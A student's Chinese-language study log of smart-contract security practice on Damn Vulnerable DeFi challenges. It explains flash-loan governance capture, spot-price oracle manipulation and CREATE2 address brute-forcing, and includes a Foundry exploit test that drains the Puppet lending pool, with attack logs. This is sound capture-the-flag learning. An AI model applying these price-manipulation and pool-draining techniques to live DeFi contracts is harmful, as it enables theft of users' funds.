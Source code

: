 ```yaml
---
timezone: Asia/Shanghai 
---
```


# Lori

1. 自我介绍
[Lori](https://www.notion.so/Lori-b62d3531f44f467baa56ddb161f0ef3e?pvs=21), 研三在读学生，研究方向为区块链安全。

2. 你认为你会完成本次残酷学习吗？
保证至少能够完成90%，并参加 BlazCTF。

## Notes

<!-- Content_START -->

### 2024.08.29

Ethernaut 之前我已经做完了了，写了部分[解析和PoC](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/ethernaut).
damn-vulnerable-defi 写了一半，接下来会接着完成剩余的部分，前面3天先复习。
[Selfie](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/selfie/Selfie.t.sol)
这是有关治理投票的相关攻击，算是比较经典的。
我们注意到，想要提出的提案必须满足以下条件：
1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
2. 接收者不能是治理合约本身msg.sender
第一点，由于没有对持有代币时间的限制，攻击者可以通过闪电贷来绕过第一点的检查。

### 2024.08.30

[Puppet](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
Root cause：Spot price
这是一个lending protocol, 通过uniswapv1交易对的瞬时价格来计算coll，攻击者可以通过swap来影响价格，从而掏空池子。

log：
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```

### 2024.08.31
[puppetV2](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels)
与最初版本不同的地方在于使用WETH-token交易对，现在还是关注质押WETH数量是如何计算的，
```
// PuppetV2.sol
    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return (_getOracleQuote(tokenAmount) * 3) / 10 ** 18;
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            // 获取交易对数量
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount * (10 ** 18), reservesToken, reservesWETH);
    }
// UniswapV2Library.sol
    function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
        require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
        require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
        amountB = (amountA * reserveB) / reserveA;
    }
```
同样的，质押物价值也是通过uniswapv2池子里交易对数量比值作为瞬时价格，突破点也是在这。与上边不同的地在于需要将eth置换成WETH。

### 2024.09.01
Take a break over the weekend~ 

### 2024.09.02
[SafeMiners](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/safe-miners/SafeMiners.t.sol)
做到这题发现自己fork的repo是V2的，明天再做更新的，有点大意了>v<
这类问题非常经典。具体来说，当代币转账到一个未部署的地址时，攻击者可以利用 `CREATE2` 指令，通过暴力计算不同的 salt 值来预测合约地址，直至找到目标地址。然后，攻击者可以将攻击合约部署到该地址，并执行代币转账操作。
```
Logs:
  🧨 Let's see if you can break it... 🧨
  dvt.balanceOf(DEPOSIT_ADDRESS): 2000042.000000000000000000
  dvt.balanceOf(ATTACKER): 0.000000000000000000
  dvt.balanceOf(DEPOSIT_ADDRESS): 0.000000000000000000
  dvt.balanceOf(ATTACKER): 2000042.000000000000000000
  
🎉 Congratulations, you can go to the next level! 🎉
```
<!-- Content_END -->
